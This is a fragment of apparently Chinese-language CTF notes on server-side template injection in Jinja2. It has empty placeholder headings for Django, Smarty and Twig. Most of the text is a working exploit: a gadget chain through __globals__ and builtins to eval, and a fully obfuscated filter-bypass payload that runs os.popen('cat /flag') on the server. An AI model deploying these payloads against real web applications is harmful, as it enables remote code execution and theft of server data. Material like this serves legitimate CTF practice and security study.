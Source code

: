 ```python
{% for f,v in whoami.__init__.__globals__.items() %}    # globals
    {% if f == bul %} 
        {% for a,b in v.items() %}    # builtins
            {% if a == ev %}    # eval
                {{b(pld)}}    # eval("__import__('os').popen('cat /flag').read()")
            {% endif %}
        {% endfor %}
    {% endif %}
{% endfor %}
```

所以最终的payload为：

```python
{% set zero = (({ }|select|string|list).pop(38)|int) %}{% set one = (zero**zero)|int %}{% set two = (zero-one-one)|abs|int %}{% set four = (two*two)|int %}{% set five = (two*two*two)-one-one-one %}{% set seven = (zero-one-one-five)|abs %}{% set xhx = (({ }|select|string|list).pop(24)|string) %}{% set space = (({ }|select|string|list).pop(10)|string) %}{% set point = ((app.__doc__|string|list).pop(26)|string) %}{% set yin = ((app.__doc__|string|list).pop(195)|string) %}{% set left = ((app.__doc__|string|list).pop(189)|string) %}{% set right = ((app.__doc__|string|list).pop(200)|string) %}{% set c = dict(c=aa)|reverse|first %}{% set bfh=self|string|urlencode|first %}{% set bfhc=bfh~c %}{% set slas = bfhc%((four~seven)|int) %}{% set but = dict(buil=aa,tins=dd)|join %}{% set imp = dict(imp=aa,ort=dd)|join %}{% set pon = dict(po=aa,pen=dd)|join %}{% set os = dict(o=aa,s=dd)|join %}{% set ca = dict(ca=aa,t=dd)|join %}{% set flg = dict(fl=aa,ag=dd)|join %}{% set ev = dict(ev=aa,al=dd)|join %}{% set red = dict(re=aa,ad=dd)|join %}{% set bul = xhx*2~but~xhx*2 %}{% set pld = xhx*2~imp~xhx*2~left~yin~os~yin~right~point~pon~left~yin~ca~space~slas~flg~yin~right~point~red~left~right %}{% for f,v in whoami.__init__.__globals__.items() %}{% if f == bul %}{% for a,b in v.items() %}{% if a == ev %}{{b(pld)}}{% endif %}{% endfor %}{% endif %}{% endfor %}
```
[参考](https://forum.butian.net/share/1371#/)


### Django





## Php

### smarty



### Twig
